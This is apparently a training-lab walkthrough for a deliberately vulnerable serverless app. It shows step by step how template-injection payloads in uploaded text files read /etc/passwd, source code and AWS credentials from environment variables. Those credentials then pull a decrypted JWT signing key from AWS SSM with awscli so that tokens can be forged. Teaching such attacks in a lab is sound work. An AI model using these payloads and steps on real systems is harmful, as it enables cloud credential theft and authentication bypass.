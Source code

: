 # **Serverless Attack**


### *  *

-------

#### Step 1:

* Access the [Serverless-Attack](https://serverless-attack.netlify.com) Application on the browser.

```commandline
https://serverless-attack.netlify.com
```

* Register and Login to the Application

### *Note: The details provided CAN be fake and we highly recommend it!*

-------

#### Step 2:

* Once logged in, copy the value of `token` that can be found in `Session Storage` under the `Storage` section in `developer tools`

* Click on the `File-Upload` icon present in the header

* Click on the `Upload` button and upload the `readme.txt` file. It can be observed that the contents of the file is rendered on the UI

### *Note: It only accepts `.txt` files.*

### *What are the potential attacks based on this functionality???*

-------

#### Step 3:

* Similar to **Step 2**, upload `malicious-file.txt` and observe the output rendered on the UI

-------

#### Step 4:

* Sensitive information like the ones mentioned below can be fetched from the environment variables:

    * `AWS_SESSION_TOKEN`

    * `AWS_SECURITY_TOKEN`

    * `AWS_ACCESS_KEY_ID`

    * `AWS_DEFAULT_REGION`

    * `AWS_SECRET_ACCESS_KEY`


* On the Server provisioned, set the values fetched from the previous step as `Enironment variables`


```bash
export AWS_SESSION_TOKEN=<VALUE-OF-AWS_SESSION_TOKEN>

export AWS_SECURITY_TOKEN=<VALUE-OF-AWS_SECURITY_TOKEN>

export AWS_ACCESS_KEY_ID=<VALUE-OF-AWS_ACCESS_KEY_ID>

export AWS_DEFAULT_REGION=<VALUE-OF-AWS_DEFAULT_REGION>

export AWS_SECRET_ACCESS_KEY=<VALUE-OF-AWS_SECRET_ACCESS_KEY>
```

-------

#### Step 5:

* Similar to **Step 2**, upload `read-etc-pwd.txt` and `read-py-files.txt`.

* By observing the results, we were able to fetch the source-code of application. By further investigation of the source-code, we can see that `auth` is imported.

* Edit `read-py-files.txt` file to fetch source-code of `auth.py` and upload the file

```bash
{{ ''.__class__.__mro__[2].__subclasses__()[40]('auth.py').read() }}
```

* From `auth.py`, it can be observed that `AWS SSM` is being used and `JWT_PASS` is the parameter that needs to be fetched.

-------

#### Step 6:

* Use `awscli` to fetch decrypted `JWT_PASS` from `SSM` 

### *Note: Ensure that `awscli` has been installed and the AWS `environment variables` have been set*

```commandline
aws ssm get-parameters --names "JWT_PASS" --with-decryption
```

* The `Value` fetched in encoded with `base64`. Decode to get the private key.

```commandline
echo "<JWT_PASS value>" | base64 --d > privkey
```

* Using the private key, create a public key using `openssl`

```commandline
openssl rsa -in privkey -pubout -outform PEM -out public.key.pub
```

-------

#### Step 7:

* Access [`jwt.io`](https://jwt.io) on the browser and paste the `JWT Token` fetched in **Step 2**.

* Paste the value of `privkey` and `public.key.pub` under the `Verify Signature` section.

* The `Payload` data can now be tampered with

--------

### Reading Material/References:

* https://github.com/anchore/anchore

* https://github.com/anchore/anchore-engine

* https://anchore.com/opensource/

* https://sysdig.com/blog/container-security-docker-image-scanning/

